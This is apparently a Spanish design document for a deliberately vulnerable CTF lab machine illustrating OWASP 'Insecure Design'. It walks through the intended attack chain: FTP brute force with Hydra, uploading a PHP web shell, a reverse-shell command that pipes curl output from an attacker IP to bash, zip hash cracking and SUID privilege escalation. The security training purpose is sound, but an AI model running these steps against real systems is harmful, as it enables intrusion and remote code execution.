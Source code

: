 # **Máquina: Diseño Inseguro**

## Objetivo
Esta máquina está específicamente diseñada para explotar la vulnerabilidad ***A04:2021 - Diseño Inseguro*** y otras vulnerabilidades.

## Planteamiento
Para cumplir con este objetivo, la máquina alojará varios servicios como **FTP**, **SSH** y **Apache**.

Estos servicios se encontrarán expuestos externamente para que cuando el atacante realice un reconocimiento pueda detectarlos.
****
El servicio **FTP** podrá ser accesible de forma anónima.

El servicio de **SSH** no tendrá ninguna función más que despistar al atacante.

El servicio de **apache** alojará nuestra pagina web la cual esta inspirada en la serie **Los Originales**. La web será vulnerable a la vulnerabilidad **Diseño Inseguro**, la cual estará enfocada a una gestión insegura de los permisos de usuarios FTP.

Para comenzar el atacante realizará un reconocimiento de los servicios expuestos por la maquina, y de primeras podrá ver que el servicio **FTP** es propenso a hacer un login mediante el usuario de **anonymous** y que el **SSH** es propenso a enumeración de usuarios.

Cuando el atacante se ponga a revisar la web y realizar **FUZZING** para descubrir subdirectorios ocultos, encontrará el directorio **secret**, el cual al intentar acceder no tendra permisos de lectura.

Si el atacante sigue revisando la web, encontrará que no hay ningun vector de entrada a través de la pagina web, por lo cual se pondrá a probar que puede hacer con el usuario de **anonymous** en **FTP**, pero se dará cuenta que con este usuario tampoco puede realizar acciones importantes para vulnerar la maquina.

El atacante se pondrá a revisar mejor la web y verá que se hablan de personajes de la serie, por lo cual se creará un diccionario con nombres de usuario relacionados con los personajes de la serie **Los Originales**, de esta forma el atacante utilizará una herramienta de **Python** para enumerar los usuarios existentes del sistema mediante **SSH**, consiguiendo encontrar al usuario **Elijah** existente en la maquina.

Una vez el atacante sepa que el usuario **Elijah** existe en la maquina, utilizará la herramienta **Hydra** junto con el diccionario de contraseñas **rockyou.txt** y el usuario **Elijah** para realizar un ataque de fuerza bruta e intentar averiguar la contraseña del usuario atacando al servicio de **FTP**, de esta forma obtendremos la contraseña del usuario **Elijah** para acceder al **FTP**.

Cuando el atacante acceda al **FTP** con el usuario de **Elijah** podrá ver que puede visualizar un directorio **Elijah**, en el cual despues de probar a realizar que acciones puede hacer, verá que puede subir ficheros dentro de este directorio **Elijah**, de esta forma el atacante subira un fichero **cmd.php** el cual tendrá codigo en PHP para realizar una **RCE**.

Sabiendo todo esto, el atacante accederá al directorio **secret** dentro de la web y verá que dentro de **secret** existe **Elijah**, de esta forma llegará a la conclusión que el fichero con el **RCE** que ha subido dentro de **Elijah** por **FTP** esta sincronizado con los directorios de la web, por lo que si accede a este fichero y ejecuta **cmd=whoami** y por pantalla le muestra **www-data** verá que tiene ejecución remota de comandos.

De esta forma el atacante, se creará un **index.html** con codigo para ejecutarse una **reverse shell** en **bash**, se creará un servicio **HTTP** y se pondra en escucha por el **puerto 443**, dentro de la url hará que la maquina realice un **curl** a la IP del atacante y "pipeara" el resultado con **bash** **(http://IpMaquina/cmd.php?cmd=curl IpAtacante | bash)**, realizando esto obtendremos una **reverse shell** y obtendremos acceso a la maquina como **www-data** en donde realizaremos un tratamiento de la **TTY**.

Una vez ya tenemos acceso como **www-data** dentro de la maquina, encontraremos un fichero llamado **backupPasswords.zip** en **/var/www/**, cifrado con una contraseña, la cual podremos crackear con **zip2john** para obtener el **hash** y despues crackear el **hash** con la herramienta de **John**.

Cuando hagamos el unzip del fichero, el atacante verá otro fichero con muchas contraseñas, y utilizará estas contraseñas para acceder con otro usuario del sistema llamado **Caroline**, de esta forma podrá **pivotar** a este usuario.

Con el usuario **Caroline**, podremos visualizar la flag **user.txt** en el directorio **/home/caroline/**, además el atacante verá que tiene permisos de SUID sobre un fichero en especifico, el cual este permiso le permitirá escalar sus privilegios al usuario de root.

Una vez tenga acceso con el usuario **root**, el atacante podrá visualizar el flag de **root.txt** dentro de **/root/**, además de obtener acceso completo a toda la maquina.

## Configuración del entorno
Para configurar el entorno utilizaremos un contenedor Docker con el sistema operativo Ubuntu Server. Los servicios que utilizaremos son:

- **FTP**: *vsftpd* version 3.0.3 --> Para transferencia de archivos.
- **SSH**: *OpenSSH 9.6p1* --> Para acceso remoto seguro.
- **HTTP**: *Apache 2.4.58* --> Para el servidor web.
 
## Pasos a seguir

1. **Instalación de Docker**
2. **Creación del Dockerfile**
3. **Verificación de contenedor Docker**
4. **Primeras pruebas de Docker**
5. **Configuración de la máquina y paquetes**
6. **Testeo de vulnerabilidades**
7. **Aplicar mejoras y corregir errores/problemas**
8. **Volver a testear las vulnerabilidades**
9. **Redactar el reporte y documentación final**
